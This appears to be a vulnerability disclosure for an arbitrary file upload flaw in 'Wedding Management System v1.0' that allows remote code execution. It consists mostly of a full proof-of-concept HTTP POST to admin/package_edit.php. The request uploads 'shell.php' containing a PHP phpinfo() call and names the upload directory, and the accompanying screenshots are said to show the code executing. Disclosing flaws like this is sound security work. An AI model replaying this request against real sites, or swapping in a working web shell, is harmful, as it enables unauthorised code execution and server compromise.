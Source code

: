# Wedding Management System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/package_edit.php?id=1

Loophole location：The editing function of "Services" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "package_edit.php" file.

Click "Edit" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/package_edit.php?id=1 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/package_edit.php?id=1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------28704520716321
Content-Length: 534

-----------------------------28704520716321
Content-Disposition: form-data; name="wedding_type"

2
-----------------------------28704520716321
Content-Disposition: form-data; name="price"

0.00
-----------------------------28704520716321
Content-Disposition: form-data; name="preview_image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------28704520716321
Content-Disposition: form-data; name="submit"


-----------------------------28704520716321--
```

The files will be uploaded to this directory \admin\upload\categories\

![image](https://user-images.githubusercontent.com/54017627/167979415-1d1142a3-23b8-4fc0-9211-a0c7d415341a.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167979449-ffb31988-3400-4685-900d-a331da29b879.png)


